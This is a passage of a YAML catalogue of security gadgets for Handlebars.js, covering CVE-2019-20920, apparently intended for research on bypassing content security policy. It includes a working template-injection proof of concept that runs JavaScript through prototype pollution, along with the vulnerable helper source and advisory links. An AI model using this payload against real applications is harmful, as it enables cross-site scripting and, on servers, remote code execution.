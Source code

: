 ```yaml
      - https://security.snyk.io/vuln/SNYK-JS-HANDLEBARS-1279029
  ≤3.0.7&≤4.5.1:
    cve: CVE-2019-20920
    authors:
      - Francois Lajeunesse-Robert
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - any-attr
      - unsafe-eval-csp
      - func-call-parameter
    pocs:
      - description: |
          There was a prototype pollution in [Handlebars.js](https://github.com/handlebars-lang/handlebars.js) that allowed to execute JavaScript code.

          *On server-side usage, this is a Remote Code Execution (RCE).*
        code: |
          <script nonce="secret" src="https://cdnjs.cloudflare.com/ajax/libs/handlebars.js/4.5.1/handlebars.min.js"></script>

          <script nonce="secret">
            // user input
            var s = `
              {{#with "constructor"}} {{#with split as |a|}} {{pop (push "alert(document.domain);")}} {{#with (concat (lookup join (slice 0 1)))}} {{#each (slice 2 3)}} {{#with (apply 0 a)}} {{.}} {{/with}} {{/each}} {{/with}} {{/with}} {{/with}}
            `;
            var template = Handlebars.compile(s);
            template({}); 
          </script>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/handlebars-lang/handlebars.js/blob/v4.5.1/lib/handlebars/helpers/lookup.js">https://github.com/handlebars-lang/handlebars.js/blob/v4.5.1/lib/handlebars/helpers/lookup.js</a>

      ```javascript
      export default function(instance) {
        instance.registerHelper('lookup', function(obj, field) {
          if (!obj) {
            return obj;
          }
          if (field === 'constructor' && !obj.propertyIsEnumerable(field)) {
            return undefined;
          }
          return obj[field];
        });
      }
      ```
    links:
      - https://github.com/advisories/GHSA-3cqr-58rm-57f8
      - https://github.com/handlebars-lang/handlebars.js/commit/d54137810a49939fd2ad01a91a34e182ece4528e
      - https://security.snyk.io/vuln/SNYK-JS-HANDLEBARS-534478
  ≤4.0.13:
    authors:
      - Mahmoud Gamal
    tags:
      - chrome-browser
```
